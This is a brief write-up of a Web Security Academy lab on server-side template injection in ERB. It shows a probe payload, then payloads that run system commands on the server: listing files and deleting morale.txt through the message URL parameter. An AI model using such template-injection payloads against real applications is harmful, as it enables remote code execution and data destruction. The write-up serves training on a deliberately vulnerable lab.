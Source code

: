 ## Basic server-side template injection

If you click in the first product, a message will appear in the uri

```
https://random_.web-security-academy.net/?message=Unfortunately this product is out of stock
```

The template engine used is [ERB](https://www.stuartellis.name/articles/erb/) (as told in lab description). First payload tried

```<%=Time.now.strftime('%A')>```

It will return the current day, after that you can make RCE inside the server.

```<%=system("ls")%>```

It will return 

```morale.txt true```

Removig morale.txt as told to us

```https://random_.web-security-academy.net/?message=<%=system("rm morale.txt")```


Just that simple :)


